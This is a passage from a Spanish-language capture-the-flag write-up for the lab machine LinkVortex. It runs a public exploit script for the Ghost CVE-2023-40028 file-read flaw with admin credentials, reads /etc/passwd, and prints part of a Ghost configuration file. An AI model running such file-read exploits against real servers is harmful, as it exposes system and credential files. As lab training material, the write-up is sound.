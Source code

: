 https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028

```c
❯ bash CVE-2023-40028.sh -h 'http://linkvortex.htb' -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'
```

Ejecutante, podemos observar que leemos exitosamente le archivo `/etc/passwd` del servidor

![20250904221510.png](20250904221510.png)

Enumerando encontraremos un archivo `/var/lib/ghost/config.production.json`, el que pudimos ver que fue modificado anteriormente.

![20250905153746.png](20250905153746.png)

```c
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
```